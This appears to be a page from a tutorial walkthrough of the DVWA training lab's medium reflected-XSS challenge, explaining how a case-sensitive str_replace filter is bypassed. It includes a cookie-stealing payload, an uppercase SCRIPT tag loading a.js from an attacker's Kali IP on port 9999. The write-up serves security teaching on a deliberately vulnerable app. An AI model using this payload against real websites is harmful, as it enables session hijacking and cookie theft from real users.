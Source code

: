 <b>Challenge URL:</b> /dvwa/vulnerabilities/xss_r/
<br>
<b>Objective:</b> Steal the cookie of a logged-in user.
<br>
<b>Tools needed:</b> A temporary web server
<br><br>
<i>Did you remember to read this section's <a href="https://github.com/keewenaw/dvwa-guide-2019/blob/master/medium/README.md" target="_blank">README</a>?</i>

<h2><b>The Guide</b></h2>

<i>Since this challenge is very similar to the easy mode challenge, I'd highly recommend re-reading <a href="https://github.com/keewenaw/dvwa-guide-2019/blob/master/low/Challenge%2011:%20XSS%20(Reflected).md" target="_blank">our notes from before</a>. We'll be using a lot of the analysis and code from before.</i>

<h3><b>What's Changed</b></h3>

Let's start by clicking the "View Source" button on the bottom right of the challenge.

<img src="https://github.com/keewenaw/dvwa-guide-2019/blob/master/medium/screenshots/xssrsource.png" width="500">

Two things to note here:
<ul>
  <li>While we do see a header called "X-XSS-Protection", it's not as scary as we fear. The developer set this to "0", which means the header <a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection" target="_blank">actually disables XSS filtering</a> instead of enabling it. Nice going, dev!</li>
  <li>The <b>name</b> variable gets subjected to a string replace function, which replaces all instances of <code>&#60;script&#62;</code> with <code>null</code>.</li>
</ul>

<h3><b>Crafting a New Exploit</b></h3>

So we know the header doesn't accomplish anything, so the crux of the exploit is avoiding the string replacement. 

When reading documentation on <code><a href="https://www.w3schools.com/php/func_string_str_replace.asp" target="_blank">str_replace()</a></code>, we note a key line as follows:

<blockquote>Note: This function is case-sensitive. Use the str_ireplace() function to perform a case-insensitive search.</blockquote>

It can't be that easy, can it? Since <code>str_replace()</code> looks for the literal string "<script>", all we need to do is vary the case a bit as follows:

<code>&#60;SCRIPT src="http://[your_Kali_IP]:9999/a.js"&#62;&#60;/SCRIPT&#62;</code>

Let's try it out!

<img src="https://github.com/keewenaw/dvwa-guide-2019/blob/master/medium/screenshots/xssrsuccess.png" width="500">

Cookie stolen and challenge complete!
